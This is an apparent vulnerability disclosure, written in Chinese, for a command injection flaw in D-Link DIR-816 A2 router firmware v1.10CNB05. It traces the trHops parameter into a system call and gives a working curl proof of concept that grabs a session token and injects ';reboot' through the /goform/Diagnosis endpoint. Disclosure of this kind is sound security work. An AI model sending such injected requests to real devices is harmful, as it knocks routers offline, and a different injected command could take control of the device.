


# Dlink DIR-816 命令注入漏洞
## Overview
- 厂商网址：https://www.dlink.com/
- 固件下载地址：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

## Vulnerability information
Dlink DIR-816A2_FWv1.10CNB05中存在一个命令注入漏洞，可以在路由系统中执行任意命令。

## Affected version



图中显示了路由器的最新固件:A2_FWv1.10CNB05
## Vulnerability details
在webs上可以看到硬件版本是A2 1.10。



在goahead中，我们可以在sub_45AC4C中找到代码细节，程序将trHops参数获取的内容传递给V6。


然后，通过snprintf函数将V6的匹配内容格式化为V10。


V10参数由函数doSystembk()调用,存在命令注入漏洞

## Vulnerability exploitation condition
需要获取cookie来执行攻击，并将doType设置为非0。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下shell命令进行攻击

Poc如下
```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```
```bash
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1' -d 'doType=1' -d 'trHops=8;reboot'
```
运行poc后，效果如下，路由器重启，无发连接到路由器。


## CVE-ID
unsigned
